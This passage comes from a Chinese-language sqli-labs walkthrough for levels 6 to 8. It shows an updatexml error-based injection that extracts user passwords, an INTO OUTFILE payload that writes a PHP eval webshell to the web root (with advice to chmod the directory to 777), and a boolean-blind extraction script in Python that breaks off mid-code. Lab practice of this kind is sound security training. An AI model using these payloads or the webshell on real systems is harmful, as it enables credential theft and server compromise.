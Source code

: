 依次扩大数字即可得到库中所有数据。

## LESS-6

与LESS-5相比只是将单引号改成了双引号就可以照常注入：

`id=0"/**/or/**/updatexml(2,concat(0x7e,substr((select/**/group_concat(distinct/**/password)from/**/users),1,31)),0)%23`

得到：

```html
<font size="3"  color= "#FFFF00">XPATH syntax error: '~Dumb,I-kill-you,p@ssword,crappy'</br></font>
```

照常改大数字即可。

## LESS-7

> 由于需要写文件，Docker镜像为`acgpiano/sqli-labs`，写文件存在问题，粗暴地把/var/www/html改权限为777即可。

一开始没看输出，搞成盲注了，其实应该是利用MySQL写webshell。

测试发现是单引号+双右括号闭合，于是：

`id=0'))/**/union/**/select/**/1,2,0x3c3f706870206576616c28245f504f53545b615d293b3f3e/**/into/**/outfile/**/'/var/www/html/Less-7/shell.php'%23`

可以得到如下：

```html
<font color= "#FFFF00">You have an error in your SQL syntax</font>
```

看起来好像出错了，直接测试一下能否连接：

![image-20220325185125943](./image-20220325185125943.png)

可以直接连接。

## LESS-8

没有回显、没有报错，是一个布尔盲注，没有过滤。

直接进行盲注即可，先写盲注脚本。

```python

import requests

url = 'http://192.168.237.128:12903/Less-8/?id='

password = ''
hexstr = ''
i = 1
while True:
    left = 32
    right = 128
    mid = (left+right) // 2
    while left < right:
        payload = f"0'/**/or/**/lpad((select/**/group_concat(distinct/**/password)/**/from/**/users),{i},1)>0x{hexstr}{hex(mid)[2:]}%23"

        res = requests.get(url + payload)
        if "You are in..........." in res.text:
            left = mid + 1
        else:
            right = mid
        mid = (left + right) // 2
    if mid <= 32 or mid >= 127:
```